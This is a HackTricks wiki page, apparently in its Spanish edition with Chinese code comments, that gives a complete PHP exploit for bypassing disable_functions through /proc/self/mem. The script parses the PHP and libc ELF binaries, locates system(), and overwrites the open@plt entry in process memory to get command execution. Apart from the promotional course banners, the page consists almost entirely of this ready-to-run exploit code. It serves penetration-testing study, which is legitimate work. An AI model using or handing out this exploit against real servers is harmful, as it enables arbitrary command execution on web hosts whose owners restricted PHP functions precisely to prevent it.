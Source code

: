 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# vía mem

De [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)
```php
<?php
/*
1. kernel>=2.68
2）PHP-CGI or PHP-FPM）因为mod_php并没有读取/proc/self/mem
3）代码针对x64编写，要用于x32需要更改
4）Open_basedir=off（或者能绕过open_basedir读写 /lib/ 和/proc/）
*/
/*
$libc_ver:
beched@linuxoid ~ $ php -r 'readfile("/proc/self/maps");' | grep libc
7f3dfa609000-7f3dfa7c4000 r-xp 00000000 08:01 9831386                    /lib/x86_64-linux-gnu/libc-2.19.so
$open_php:
beched@linuxoid ~ $ objdump -R /usr/bin/php | grep '\sopen$'
0000000000e94998 R_X86_64_JUMP_SLOT  open
$system_offset and $open_offset:
beched@linuxoid ~ $ readelf -s /lib/x86_64-linux-gnu/libc-2.19.so | egrep "\s(system|open)@@"
1337: 0000000000046530    45 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.2.5
1679: 00000000000ec150    90 FUNC    WEAK   DEFAULT   12 open@@GLIBC_2.2.5
*/
function packlli($value) {
$higher = ($value & 0xffffffff00000000) >> 32;
$lower = $value & 0x00000000ffffffff;
return pack('V2', $lower, $higher);
}
function unp($value) {
return hexdec(bin2hex(strrev($value)));
}
function parseelf($bin_ver, $rela = false) {
$bin = file_get_contents($bin_ver);
$e_shoff = unp(substr($bin, 0x28, 8));
$e_shentsize = unp(substr($bin, 0x3a, 2));
$e_shnum = unp(substr($bin, 0x3c, 2));
$e_shstrndx = unp(substr($bin, 0x3e, 2));
for($i = 0; $i < $e_shnum; $i += 1) {
$sh_type = unp(substr($bin, $e_shoff + $i * $e_shentsize + 4, 4));
if($sh_type == 11) { // SHT_DYNSYM
$dynsym_off = unp(substr($bin, $e_shoff + $i * $e_shentsize + 24, 8));
$dynsym_size = unp(substr($bin, $e_shoff + $i * $e_shentsize + 32, 8));
$dynsym_entsize = unp(substr($bin, $e_shoff + $i * $e_shentsize + 56, 8));
}
elseif(!isset($strtab_off) && $sh_type == 3) { // SHT_STRTAB
$strtab_off = unp(substr($bin, $e_shoff + $i * $e_shentsize + 24, 8));
$strtab_size = unp(substr($bin, $e_shoff + $i * $e_shentsize + 32, 8));
}
elseif($rela && $sh_type == 4) { // SHT_RELA
$relaplt_off = unp(substr($bin, $e_shoff + $i * $e_shentsize + 24, 8));
$relaplt_size = unp(substr($bin, $e_shoff + $i * $e_shentsize + 32, 8));
$relaplt_entsize = unp(substr($bin, $e_shoff + $i * $e_shentsize + 56, 8));
}
}
if($rela) {
for($i = $relaplt_off; $i < $relaplt_off + $relaplt_size; $i += $relaplt_entsize) {
$r_offset = unp(substr($bin, $i, 8));
$r_info = unp(substr($bin, $i + 8, 8)) >> 32;
$name_off = unp(substr($bin, $dynsym_off + $r_info * $dynsym_entsize, 4));
$name = '';
$j = $strtab_off + $name_off - 1;
while($bin[++$j] != "\0") {
$name .= $bin[$j];
}
if($name == 'open') {
return $r_offset;
}
}
}
else {
for($i = $dynsym_off; $i < $dynsym_off + $dynsym_size; $i += $dynsym_entsize) {
$name_off = unp(substr($bin, $i, 4));
$name = '';
$j = $strtab_off + $name_off - 1;
while($bin[++$j] != "\0") {
$name .= $bin[$j];
}
if($name == '__libc_system') {
$system_offset = unp(substr($bin, $i + 8, 8));
}
if($name == '__open') {
$open_offset = unp(substr($bin, $i + 8, 8));
}
}
return array($system_offset, $open_offset);
}
}
echo "[*] PHP disable_functions procfs bypass (coded by Beched, RDot.Org)\n";
if(strpos(php_uname('a'), 'x86_64') === false) {
echo "[-] This exploit is for x64 Linux. Exiting\n";
exit;
}
if(substr(php_uname('r'), 0, 4) < 2.98) {
echo "[-] Too old kernel (< 2.98). Might not work\n";
}
echo "[*] Trying to get open@plt offset in PHP binary\n";
$open_php = parseelf('/proc/self/exe', true);
if($open_php == 0) {
echo "[-] Failed. Exiting\n";
exit;
}
echo '[+] Offset is 0x' . dechex($open_php) . "\n";
$maps = file_get_contents('/proc/self/maps');
preg_match('#\s+(/.+libc\-.+)#', $maps, $r);
echo "[*] Libc location: $r[1]\n";
echo "[*] Trying to get open and system symbols from Libc\n";
list($system_offset, $open_offset) = parseelf($r[1]);
if($system_offset == 0 or $open_offset == 0) {
echo "[-] Failed. Exiting\n";
exit;
}
echo "[+] Got them. Seeking for address in memory\n";
$mem = fopen('/proc/self/mem', 'rb');
fseek($mem, $open_php);
$open_addr = unp(fread($mem, 8));
echo '[*] open@plt addr: 0x' . dechex($open_addr) . "\n";
$libc_start = $open_addr - $open_offset;
$system_addr = $libc_start + $system_offset;
echo '[*] system@plt addr: 0x' . dechex($system_addr) . "\n";
echo "[*] Rewriting open@plt address\n";
$mem = fopen('/proc/self/mem', 'wb');
fseek($mem, $open_php);
if(fwrite($mem, packlli($system_addr))) {
echo "[+] Address written. Executing cmd\n";
readfile('/usr/bin/id');
exit;
}
echo "[-] Write failed. Exiting\n";
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

